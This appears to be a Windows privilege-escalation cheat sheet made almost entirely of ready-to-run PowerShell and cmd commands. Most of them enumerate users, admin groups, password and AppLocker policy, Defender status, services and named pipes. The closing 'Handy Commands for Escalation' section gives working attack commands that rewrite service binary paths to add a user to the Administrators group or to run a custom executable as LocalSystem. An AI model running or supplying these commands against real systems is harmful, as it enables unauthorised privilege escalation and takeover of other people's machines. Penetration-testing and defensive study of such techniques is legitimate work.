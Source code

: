 ## Users and Groups

```powershell
net user            # Lists all system users
net users           # Same as above, for lateral movement checks
net user <USERNAME> # Checks if a user is an admin or in special groups
net localgroup      # Lists all system groups
net localgroup administrators    # Shows admin group members
```

## Security Policies

```powershell
net accounts        # Displays password policy
Get-MpComputerStatus    # Checks Windows Defender status
Get-AppLockerPolicy -Effective | select -ExpandProperty RuleCollections    # Lists AppLocker rules
Get-AppLockerPolicy -Local | Test-AppLockerPolicy -path C:\Windows\System32\cmd.exe -User Everyone    # Tests AppLocker policy
```

## Processes and Services

```powershell
tasklist /svc       # Lists running processes and services
query user          # Shows logged-on users (Windows Pro/Enterprise/Server)
Get-CimInstance -ClassName Win32_ComputerSystem | Select-Object UserName    # Shows logged-on users
wmic service get name,startname    # Lists services and start accounts
wmic service get name,startname | FINDSTR "NT"    # Filters for NT AUTHORITY/SYSTEM services
net start          # Lists running services
```

## Environment and Pipes

```powershell
set                # Displays environment variables
cmd /c echo %PATH% # Reviews path variable
pipelist.exe /accepteula    # Lists named pipes
gci \\.\pipe      # Lists named pipes with PowerShell
accesschk.exe /accepteula \\.\Pipe\lsass -v    # Reviews pipe permissions
```

## Handy Commands for Escalation

These commands help you exploit misconfigurations and escalate privileges. Note: Many commands require Administrator privileges.

### Service Exploitation

```powershell
sc.exe sdshow Dnscache    # Checks DNS Client service permissions
sc stop Dnscache         # Stops DNS Client service
sc start Dnscache        # Starts DNS Client service
sc query Dnscache        # Checks service status

# Modify service binary path
sc config AppReadiness binPath= "cmd /c net localgroup Administrators server_adm /add"

# List services with unquoted paths
wmic service get name,displayname,pathname,startmode | findstr /i "auto" | findstr /i /v "c:\windows\" | findstr /i /v """"

# Modify service configuration
sc config UPNPHOST binPath= "C:\Tools\sirenMaint.exe" & sc config UPNPHOST obj= ".\LocalSystem" password= ""
```